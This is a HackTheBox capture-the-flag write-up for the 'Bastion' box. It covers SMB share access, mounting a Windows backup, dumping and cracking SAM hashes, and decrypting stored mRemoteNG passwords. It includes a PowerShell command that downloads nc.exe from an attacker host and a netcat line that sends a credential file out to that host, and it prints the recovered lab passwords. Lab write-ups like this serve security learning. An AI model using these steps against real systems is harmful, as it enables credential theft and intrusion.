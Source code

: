 ```yaml
---
title: "HackTheBox Writeup: Bastion"
date: 2019-09-07T18:20:04+02:00
toc: true
showdate: true
tags:
    - hackthebox
    - writeup
    - ctf
---
```


Bastion proved to be a very easy yet pretty fun challenge, quite unique in its kind even if it doesn't present any particular difficulties, all one needs to complete this box is a search engine to learn how to accomplish certain tasks, all of which only take a couple minutes to solve, hence why so many people finished this box despite it not being one of those two clicks to root kind of boxes (I'm looking at you, Blue, Jerry, Lame, etc...). The first half of the challenge involves finding a Windows backup containing an old copy of the SAM database, which when read gives us SSH credentials to log in the box. Once inside the administrator's password must be extracted from the saved settings of a remote sessions manager.

![img](/images/writeup-bastion/1.png)

---

## Drawing the perimeter

I begin by scanning the box with a standard service scan (-sV) and executing the default list of NSE scripts (-sC), and one of the first things one can notice is that nmap found guest login available on SMB:

![img](/images/writeup-bastion/2.png)

We can use this access to list the available shares:

```shell-session
$ smbclient -L 10.10.10.134
```

![img](/images/writeup-bastion/3.png)

Backups seems to be the only unprotected share on the system so let's access it and see what's inside:


```shell-session
$ smbclient \\\\10.10.10.134\\Backups
```

![img](/images/writeup-bastion/4.png)

This whole share contains a Windows backup, in fact if we go further in the directory tree we reach two *.vhd* (Virtual Hard Drive) files, which contain the whole backed up disk:

![img](/images/writeup-bastion/5.png)

One of these files is very big though so downloading it isn't very convenient, also we found a *note.txt* file on the root of the share which gives us a very clear hint on what we shouldn't be doing:

![img](/images/writeup-bastion/6.png)

But there is a solution to this problem. I'm going to mount this share on my own system and then mount the vhd files from there, giving me access to their content without having to download the whole huge file locally. We need to install two additional tools for this task:


```shell-session
$ sudo apt-get install cifs-utils
$ sudo apt-get install libguestfs-tools
```


Then we mount the share on our computer:


```shell-session
$ mount -t cifs //10.10.10.134/Backups /mnt/remote -o rw
```


So now we can access the share from /mnt/remote:

![img](/images/writeup-bastion/7.png)

Once navigated to the folder where the two .vhd files reside we can mount them on our disk with guestmount:



```shell-session
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd -v
```


So we have the whole disk at our disposal now!

![img](/images/writeup-bastion/8.png)

---

## Stealing user credentials from the SAM file

The Users folder does not contain any flags and really there are only two truly interesting files in the whole backup, those two being SAM and SYSTEM: SAM is where Windows stores user passwords in an encrypted form, SYSTEM is where the encryption key for these passwords is located, so with these two files at hand we can get the credentials of the users. These files are stored in */mnt/vhd/Windows/System32/config/*:

![img](/images/writeup-bastion/9.png)

We can list the users of which the crentials are stored in the SAM file using *chntpw* however if we mounted the virtual disk on a read-only mount we have to copy the file in a different folder first:




```shell-session
$ chntpw -l SAM
```

![img](/images/writeup-bastion/10.png)

The Administrator and Guest accounts appear to be disabled so we cannot retrieve the administrator's password, however L4mpje isn't, so we can dump its hash and crack it with hashcat. First we use *samdump2* to create a text file containing all the hashes:



```shell-session
$ samdump2 ./SYSTEM ./SAM > /home/baud/bastion/hash.txt
```

![img](/images/writeup-bastion/11.png)

The last field is the hashed password, hashed in NTLM. In order for hashcat to crack it we need it to be all uppercase so we can do this with awk:

![img](/images/writeup-bastion/12.png)

Once we have the file with the correct hash in it we can use hashcat for a dictionary attack to crack it, I'm going to use the classic *rockyou.txt* wordlist, which is pretty much always sure to hit the target in CTF challenges:


```shell-session
$ hashcat -m 1000 -a 0 hashcat.txt rockyou.txt --force
```

**-m 1000** tells hashcat what hash type we're cracking, NTLMv2 in our case, and **-a 0** tells it to perform a dictionary attack. --force will run the attack despite hashcat not recognizing what hardware is installed on the computer, since I'm using a VM (installed on a bad laptop, I should add). In just a few seconds we get the results back and the password has been found:

![img](/images/writeup-bastion/13.png)

So now we have a pair of working credentials that we can use to login using the SSH service running on the box:



```shell-session
User: L4mpje
Pass: bureaulampje
```

![img](/images/writeup-bastion/14.png)

And thanks to this we can grab the user.txt flag from our current user's desktop:

![img](/images/writeup-bastion/15.png)

Looking at the installed programs shows something interesting, mRemoteNG is present on the system, which is a program that can manage remote sessions using a variety of protocols such as RDP, VNC, and many more:

![img](/images/writeup-bastion/16.png)

It takes only a few seconds of Googling to find out that mRemoteNG saves the settings of its managed connections locally, these settings also include user passwords given to the program for the establishment of a connection, and there already exist plenty of scripts that are able to decrypt these passwords from their encrypted form. To be more specific, this is how the passwords are stored in encypted form by mRemoteNG:

```shell-session
encrypted_pass = base64(IV + AES-128-CBC(cleartext_pass, md5(mR3m), IV))
```


---





## Privilege escalation: decrypting stored mRemoteNG passwords


All the passwords are stored in a file called confCons.xml which can be found at *%appdata%\mRemoteNG\*:

![img](/images/writeup-bastion/17.png)

The file can be downloaded on our own box using *nc.exe* (or just use *net use* to enable a local share, whatever you prefer), first nc.exe is downloaded on Bastion:

```shell-session
$ powershell Invoke-WebRequest "http://10.10.14.29:8080/nc.exe -OutFile "./nc.exe"
```



Then we set up a netcat listener on our box:



```shell-session
$ nc -lvp 9999 > confCons.xml
```


And then we send the file from Bastion:



```shell-session
$ nc -w 3 10.10.14.29 9999 < %appdata%\mRemoteNG\confCons.xml
```


Once the file is transferred we can open it to see its content and we can notice that one of the saved sessions belongs to the Administrator account:

![img](/images/writeup-bastion/18.png)

Now it's time to decrypt this password. I'm going to use [this](https://github.com/haseebT/mRemoteNG-Decrypt/blob/master/mremoteng_decrypt.py) Python script from Github but there even is a Metasploit module to do so if one is already running a meterpreter session, which isn't my case unfortunately:

![img](/images/writeup-bastion/19.png)

So now we have the administrator's credentials too!


```shell-session
User: Administrator
Pass: thXLHM96BeKL0ER2
```

We can use these to login using good old SSH and complete the box by grabbing the root flag:

![img](/images/writeup-bastion/20.png)

And Bastion is done.







